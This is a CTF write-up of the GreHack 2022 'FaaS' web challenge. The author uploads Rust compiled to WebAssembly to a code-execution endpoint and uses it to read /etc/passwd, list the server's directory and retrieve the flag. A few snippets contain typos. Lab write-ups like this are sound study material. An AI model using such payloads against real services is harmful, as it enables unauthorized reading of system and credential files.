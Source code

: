 # FaaS

----

Category: Web  
Points: 150  
Description: 
> We just rolled out our FaaS service. We expect to start a new era in microservices architecture with this work.

---

This week-end I participate to the GreHack 2022 event. It was my first presential CTF, so it's my first writeup.

The FaaS challenge was in the web category. They were no real competence needed as WebAssembly (WASM) was kind of explained in the challenge.

![FaaS html page](./static/page.png "FaaS html page")

The first thing I thought with the given exemple was that I could maybe open a file on the server using the /compute_file entrypoint.

I started to create a rust project to compile it into WASM. That's when I started to have troubles first because I didn't knew anything about rust and also because I didn't managed to compile into WASM. So I created a cargo project and made a first rust program to display a Hello World (classic).


```rust
fn main() {
	printl!("Hello World");
}
```

And I compiled it using the `wasm32-wasi` target : `cargo build --targer wasm32-wasi`. When you send the wasm binary to the server on the `/compute_file` entrypoint (which is the interesting one), you should see a `Hello World` printing (that's what we wanted).

Then from here, we can try to retrieve a file on the server. I first started to retrieve the **/etc/passwd** using the `File::open` rust function.

```rust
fn main() {
	let mut file = File::open("/etc/passwd")
		.expect("Rien");
	let mut data = String::new();
	file.read_to_string(&mut data)
		.expect("Rien");
	println!("{}", data);
}
```

This script should work but I ran into some issues as the server panic and I still don't know really why. Maybe because the `File::open` function needs some dependancies not included inside the wasm binary.

Anyway I wrote an other script using the `fs::read` function to read exactly the same file.

```rust
use std::fs;

fn main() {
	let data = fs::read("/etc/passwd");
	println!("{:?}", data);
}
```

And hurray, the wasm binary works, it just don't display the files but an error : `file not found`. After that I tried the exact same program but I was looking for the **flag.txt** file. Unfortunately this file doesn't exist as well.

So I started to write a program to display all files inside a folder (ls-like).

```rust
use std::fs;

fn main() {
    let paths = fs::read_dir("./").unwrap();

    for path in paths {
        println!("Name: {}", path.unwrap().path().display())
    }
}
```

And second hurray, I can see all files inside the folder and a file was called **flag**. So I used the previous program to display it and it worked. It justed printed it as an ASCII code array so I just needed to convert it into ASCII and that's it.
